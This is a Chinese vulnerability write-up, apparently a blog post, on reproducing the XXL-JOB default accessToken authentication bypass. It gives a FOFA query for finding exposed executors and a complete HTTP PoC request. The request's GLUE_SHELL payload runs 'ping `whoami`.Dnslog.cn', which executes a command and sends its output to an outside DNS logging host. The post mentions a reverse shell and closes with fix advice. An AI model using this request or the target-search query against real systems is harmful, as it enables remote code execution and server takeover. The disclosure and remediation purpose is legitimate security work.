 
# XXL-JOB 默认 accessToken 身份绕过漏洞复现

### 0x01 产品简介

  [XXL-JOB](https://so.csdn.net/so/search?q=XXL-JOB&spm=1001.2101.3001.7020) 是一款开源的分布式任务调度平台，用于实现大规模任务的调度和执行。

### 0x02 漏洞概述

     XXL-JOB 默认配置下，用于调度通讯的 accessToken 不是[随机生成](https://so.csdn.net/so/search?q=%E9%9A%8F%E6%9C%BA%E7%94%9F%E6%88%90&spm=1001.2101.3001.7020)的，而是使用 application.properties 配置文件中的默认值。在实际使用中如果没有修改默认值，攻击者可利用此绕过认证调用 executor，执行任意代码，从而获取服务器权限。

XXL-JOB之前版本accessToken的值都为空，2.3.1后才出现默认值，如下：

![](assets/1699250015-cb819a2c5bbd673a302156996bb9daa6.png)

### 0x03 影响范围

     xxl-job-2.3.1、2.4.0版本

### 0x04 复现环境

FOFA："invalid request, HttpMethod not support" && port="9999"

![](assets/1699250015-427a2cf5d4e589f0d4d17d1e3112487b.png)

### 0x05 漏洞复现 

PoC

```cobol
POST /run HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate, br
Connection: close
Content-Type: application/json
XXL-JOB-ACCESS-TOKEN: default token
Upgrade-Insecure-Requests: 1


{
"jobId": 3,
"executorHandler": "demoJobHandler",
"executorParams": "demoJobHandler",
"executorBlockStrategy": "SERIAL_EXECUTION",
"executorTimeout": 0,
"logId": 1,
"logDateTime": 1586373637819,
"glueType": "GLUE_SHELL",
"glueSource": "ping `whoami`.Dnslog.cn",
"glueUpdatetime": 1586693836766,
"broadcastIndex": 0,
"broadcastTotal": 0
}
```

PS：每执行一次就需要更换请求体中jobId的值

![](assets/1699250015-c095ecbba83f6761216178013771c2e3.png)

![](assets/1699250015-1f6f84c859bb6e2087fcce24b9c05688.png)

**反弹shell**

![](assets/1699250015-bb0ff5eaa3874cefab77d779f28a8254.png)![](assets/1699250015-17e293d816555990ddb76bf29461868f.png)

### 0x06 修复建议

**官方修复方案**：

修改调度中心和执行器配置项 xxl.job.accessToken 的默认值，注意要设置相同的值：  
https://www.xuxueli.com/xxl-job/#5.10%20%E8%AE%BF%E9%97%AE%E4%BB%A4%E7%89%8C%EF%BC%88AccessToken%EF%BC%89

使用accessToken时设置强accessToken或随机accessToken 。

**临时修复方案：**  
使用防护类设备对相关资产进行防护；  
避免将 XXL-JOB 的执行器暴露在互联网。
